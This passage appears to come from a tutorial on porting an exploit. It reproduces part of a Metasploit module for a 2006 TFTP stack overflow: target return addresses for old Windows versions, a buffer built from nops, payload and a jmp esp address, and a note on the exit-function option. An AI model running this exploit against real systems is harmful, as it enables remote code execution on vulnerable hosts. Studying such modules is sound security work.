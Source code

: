 ```
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
      'Privileged'     => false,
      'DisclosureDate' => 'Nov 27 2006'))
 
    register_options(
      [
        Opt::RPORT(69),
        Opt::LHOST() # Required for stack offset
      ], self.class)
  end
 
  def exploit
    connect_udp
 
    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"
 
    udp_sock.put(sploit)
 
    disconnect_udp
  end
 
end
```

**Key Points**

Let’s run through some key points of the module and try and understand it a little better. Only parts that have an impact on our exploit will be examined.

_Default Exit Options_
```
DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        }
```
As noted above, the default exit function is ‘process’. This the method in which the shellcode will exit after running and typically has an impact on how stable the vulnerable program will be after we send our exploit. This value should be noted for when we alter the shellcode used to suit our particular situation.
